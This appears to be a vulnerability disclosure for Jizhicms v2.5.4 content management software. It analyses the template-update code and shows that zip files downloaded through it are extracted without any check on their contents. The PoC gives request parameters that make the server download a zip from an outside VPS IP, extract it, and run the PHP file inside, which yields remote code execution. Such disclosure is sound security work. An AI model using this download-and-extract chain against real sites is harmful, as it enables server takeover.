





## Jizhicms v2.5.4

Jizhicms (Extreme CMS) is an open-source content management system (CMS) developed by Jizhi Network Technology, a Chinese company.

The latest version, JIZHICMS 2.5.4, contains a file upload vulnerability that can lead to Remote Code Execution (RCE). The vulnerability arises from an arbitrary file download and extraction flaw in the `app\admin\c\TemplateController.php` component.

### Debugging Analysis

The web system has a feature to download third-party templates.

The code is located in the `update` method of `app\admin\c\TemplateController.php`. The main code logic is as follows:
```php
// Download and install update
function update(){
    $template = $this->frparam('template',1);
    if(strpos($template,'.')!==false){
        JsonReturn(array('code'=>1,'msg'=>JZLANG('Parameter contains security risks!')));
    }
    $this->template_name = $template;
    $dir = APP_PATH.'static';
    if($template){
        if($this->frparam('action',1)){
            $action = $this->frparam('action',1);
            // Retrieve these information
            $remote_url  = urldecode($this->frparam('download_url',1));
            $remote_url = strpos($remote_url,'?')!==false ? $remote_url.'&version='.$this->webconf['web_version'] : $remote_url.'?version='.$this->webconf['web_version'];
            $file_size   = $this->frparam('filesize',1);
            $tmp_path    = Cache_Path."/update_".$template.".zip"; // Temporary download file path
            switch ($action) {
                case 'prepare-download':
                    $code = 0;
                    ob_start(); 
                    $ch=curl_init($remote_url); 
                    curl_setopt($ch,CURLOPT_HEADER,1); 
                    curl_setopt($ch,CURLOPT_NOBODY,1); 
                    $okay=curl_exec($ch); 
                    curl_close($ch); 
                    $head=ob_get_contents(); 
                    ob_end_clean(); 
                    $regex='/Content-Length:\s([0-9].+?)\s/'; 
                    $count=preg_match($regex,$head,$matches); 
                    $filesize = isset($matches[1])&&is_numeric($matches[1])?$matches[1]:0; 

                    JsonReturn(array('code'=>0,'size'=>$filesize));
                    break;
                case 'start-download':
                    // Check if tmp_path exists
                    try {
                        set_time_limit(0);
                        touch($tmp_path);
                        if ($fp = fopen($remote_url, "rb")) {
                            if (!$download_fp = fopen($tmp_path, "wb")) {
                                exit;
                            }
                            while (!feof($fp)) {
                                if (!file_exists($tmp_path)) {
                                    // If temporary file is deleted, cancel the download
                                    fclose($download_fp);
                                    exit;
                                }
                                fwrite($download_fp, fread($fp, 1024 * 8 ), 1024 * 8);
                            }
                            fclose($download_fp);
                            fclose($fp);
                        } else {
                            exit;
                        }
                    } catch (Exception $e) {
                        Storage::remove($tmp_path);
                        JsonReturn(['code'=>1,'msg'=>JZLANG('An error occurred').'：'.$e->getMessage()]);
                    }

                    JsonReturn(['code'=>0,'tmp_path'=>$tmp_path]);
                    break;
                case 'get-file-size':
                    // Check if tmp_path exists
                    if (file_exists($tmp_path)) {
                        JsonReturn(['code'=>0,'size'=>filesize($tmp_path)]);
                    }
                    break;
                case 'file-upzip':
                    if (!file_exists($tmp_path)) { // Check if the file to unzip exists
                        JsonReturn(['code'=>1,'msg'=>JZLANG('Downloaded cache file does not exist!')]);
                    }
                    //$msg = $this->upzip($tmp_path,$dir);
                    $msg = $this->get_zip_originalsize($tmp_path,$dir.'/');
                    setCache('templatelist',null);
                    JsonReturn(['code'=>0,'msg'=>$msg,'isinstall'=>true]);
                    break;
                case 'template-install':
                    $tpl = $this->frparam('tpl',2);
                    if(!count($tpl)){
                        JsonReturn(array('code'=>1,'msg'=>JZLANG('Please select a usage scenario!')));
                    }
                    if(file_exists($dir.'/'.$template.'/install/TemplateController.php')){
                        // Directly set the template
                        require_once($dir.'/'.$template.'/install/TemplateController.php');
                        $plg = new \TemplateController($this->frparam());
                        $step1 = $plg->install(); // Execute installation
                        if(!$step1){
                            JsonReturn(array('code'=>1,'msg'=>JZLANG('Failed to execute plugin installation program!')));
                        }
                    }
                    if(in_array('pc',$tpl)){
                        M('sysconfig')->update(['field'=>'pc_template'],['data'=>$template]);
                    }
                    if(in_array('wap',$tpl)){
                        M('sysconfig')->update(['field'=>'wap_template'],['data'=>$template]);
                        M('sysconfig')->update(['field'=>'iswap'],['data'=>1]);
                    }
                    if(in_array('wechat',$tpl)){
                        M('sysconfig')->update(['field'=>'weixin_template'],['data'=>$template]);
                        M('sysconfig')->update(['field'=>'iswap'],['data'=>1]);
                    }

                    setCache('webconfig',null);
                    setCache('hometpl',null);
                    setCache('wxhometpl',null);
                    setCache('mobilehometpl',null);
                    setCache('templatelist',null);
                    JsonReturn(array('code'=>0,'msg'=>JZLANG('Installation successful!')));
                    break;
                case 'backup':
                    if(!is_dir(APP_PATH.'static/'.$template.'/backup')){
                        mkdir(APP_PATH.'static/'.$template.'/backup',0777);
                    }
                    $this->backupPath = APP_PATH.'static/'.$template.'/backup';
                    $this->toBackup();
                    JsonReturn(array('code'=>0,'msg'=>JZLANG('Backup successful!')));
                    break;
                default:
                    # code...
                    break;
            }
        }
    }
}
```
As we can see, in the `start-download` branch, a remote zip file can be downloaded, and the downloaded file will be saved to:
```php
$tmp_path    = Cache_Path."/update_".$template.".zip";
```

Additionally, there is a `file-unzip` branch to extract the downloaded zip file to the directory:
```php
$dir = APP_PATH.'static';
```

Looking into the extraction function `get_zip_originalsize`, there is no check on the file content:
```php
function get_zip_originalsize($filename, $path) {
    // Check if the file to unzip exists
    if(!file_exists($filename)){
        JsonReturn(['code'=>1,'msg'=>$filename.JZLANG('File does not exist!')]);
    }

    $starttime = explode(' ',microtime()); // Time when decompression starts

    // Open the zip file
    $resource = zip_open($filename);
    $i = 1;
    // Traverse and read each file in the zip
    while ($dir_resource = zip_read($resource)) {
        // If it can be opened, continue
        if (zip_entry_open($resource,$dir_resource)) {
            // Get the current file name from the zip
            $file_name = $path.zip_entry_name($dir_resource);
            // Split by the last "/" to get the directory part
            $file_path = substr($file_name,0,strrpos($file_name, "/"));
            // If the path does not exist, create the directory
            if(!is_dir($file_path)){
                mkdir($file_path,0777,true);
            }

            // If it's not a directory, write the file
            if(!is_dir($file_name)){
                // Read the file
                $file_size = zip_entry_filesize($dir_resource);
                // Limit to 6MB, skip large files
                $file_content = zip_entry_read($dir_resource,$file_size);
                file_put_contents($file_name,$file_content);
            }
            // Close the current file
            zip_entry_close($dir_resource);
        }
    }
    // Close the zip file
    zip_close($resource);

    $endtime = explode(' ',microtime()); // Time when decompression ends
    $thistime = $endtime[0]+$endtime[1]-($starttime[0]+$starttime[1]);
    $thistime = round($thistime,3); // Round to 3 decimal places
    $msg = JZLANG("Decompression complete! This time took")."：$thistime ".JZLANG("seconds")."。";
    return $msg;
}
```

Thus, we can upload a zip file containing PHP files to a VPS server, download, extract, and access it to trigger RCE.

### PoC Attack

Prepare a zip file containing PHP files.

Start a Python server on the VPS to serve the `2.zip` file, then request the download and get the filename.

PoC:
```r
action=start-download&template=jzweb2&download_url=http://124.220.37.173:8999/2.zip
```


Request to

 extract the file.
PoC:
```r
action=file-upzip&template=jzweb2
```



The VPS receives the request.

The path is successfully parsed and the PHP file is executed.
```r
static/2.php
```


